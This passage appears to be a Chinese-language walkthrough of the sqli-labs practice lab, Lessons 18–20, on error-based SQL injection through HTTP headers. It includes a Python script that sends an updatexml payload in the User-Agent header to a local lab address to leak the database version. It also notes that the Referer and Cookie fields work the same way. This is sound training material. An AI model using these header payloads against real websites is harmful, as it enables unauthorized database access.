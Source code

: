 

直接修改没有报错信息，我们需要post才可以修改头来反馈报错信息/

![image-20200712084456624](sql.assets/image-20200712084456624.png)



![image-20200712084354969](sql.assets/image-20200712084354969.png)

报错注入

爆库

![image-20200712085049530](sql.assets/image-20200712085049530.png)



其余类推。

！

```
#脚本
import requests

url = "http://192.168.1.101/sqli-labs-master/Less-18/"

postDate = {
	'uname':'admin',
	'passwd':'1'
}

headers = {
	'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
	'Accept-Encoding':'gzip, deflate, br',
	'Accept-Language':'zh-CN,zh;q=0.8,en;q=0.6',
	'Cache-Control':'max-age=0',
	'Connection':'keep-alive',
	'Content-Type':'application/x-www-form-urlencoded',
	'Host':'127.0.0.1',
	'X-Forwarded-For':'8.8.8.8',
	'Origin':'http://127.0.0.1',
	'Referer':'http://127.0.0.1/sqli-labs-master/Less-18/',
	'Upgrade-Insecure-Requests':'1',
	'User-Agent':'\',updatexml(1,concat(0x5e,version(),0x5e),1),\''
}

content = (requests.post(url, data=postDate, headers=headers).text)
print(content)
```



### 19-20

同18，但是注入段为Referer与cookie字段而不是user-agent
